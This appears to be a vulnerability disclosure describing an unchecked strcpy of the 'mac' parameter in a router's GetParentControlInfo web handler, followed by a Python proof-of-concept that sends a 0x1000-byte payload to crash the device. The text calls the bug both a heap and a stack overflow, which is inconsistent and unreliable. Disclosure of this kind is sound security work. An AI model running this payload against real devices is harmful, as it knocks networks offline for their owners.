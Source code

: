 In the function GetParentControlInfo, the program takes the contents obtained from the parameter 'mac' and passes them to the heap block s created by the program, 
then directly copies the value of mac to the heap s using the strcpy function. 
There is no size check, which leads to a stack overflow vulnerability. An attacker can easily carry out a denial of service attack using carefully crafted overflow data.


<img width="415" height="298" alt="image" src="https://github.com/user-attachments/assets/418892f5-8657-450a-954a-9ef5a3da4d3d" />


POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/GetParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
